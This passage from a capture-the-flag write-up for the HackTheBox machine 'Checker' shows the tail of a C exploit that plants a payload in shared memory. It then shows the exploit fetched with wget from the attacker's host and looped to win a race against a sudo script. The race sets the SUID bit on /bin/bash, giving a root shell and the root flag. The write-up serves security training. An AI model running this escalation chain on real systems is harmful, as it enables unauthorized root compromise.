    shm_ptr = (char *)shmat(shm_id, NULL, 0);
    if (shm_ptr == (char *)-1) {
    printf("[!] shmat error \n");
    exit(1);
    }

    // We write our payload to the memory location
    snprintf(shm_ptr, MEMSIZE, "%s", payload);
    if (shmdt(shm_ptr) == -1) {
    printf("[!] shmdt error\n");
    exit(1);
    }
    return 0;
}
```

Then we `compiled` and `uploaded` our `exploit` to the box.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/serve]
└─$ gcc exploit.c -o exploit
```

```c
reader@checker:/tmp$ wget http://10.10.14.69/exploit
--2025-02-25 08:22:30--  http://10.10.14.69/exploit
Connecting to 10.10.14.69:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16336 (16K) [application/octet-stream]
Saving to: ‘exploit’

exploit                                                    100%[========================================================================================================================================>]  15.95K  --.-KB/s    in 0.02s   

2025-02-25 08:22:30 (926 KB/s) - ‘exploit’ saved [16336/16336]
```

In order to `execute` it, we made it `executable` by setting the relevant `permission` on the file.

```c
reader@checker:/tmp$ chmod +x exploit
```

```c
reader@checker:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Since the `random number generator` was `seeded` with `time()` we needed to `win` the `race condition` and therefore we created a simple `loop` to execute our `exploit`.

```c
reader@checker:/tmp$ while true; do ./exploit; done
```

In a `second shell` we then also `looped` through the `check-leak.sh` script to start our attack.

```c
reader@checker:~$ while true; do sudo /opt/hash-checker/check-leak.sh bob; done
Password is leaked!
Using the shared memory 0x6BEE as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
Password is leaked!
Using the shared memory 0xB3023 as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
Password is leaked!
Using the shared memory 0xA09F9 as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
Password is leaked!
```

After a few seconds the `SUID bit` was set on `/bin/bash` and we could `elevate our privileges` to `root` by using `/bin/bash -p`.

```c
reader@checker:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

```c
reader@checker:~$ /bin/bash -p
bash-5.1#
```

## root.txt

```c
bash-5.1# cat root.txt 
236413870a993cb7bdabb1e59bbd163f
```
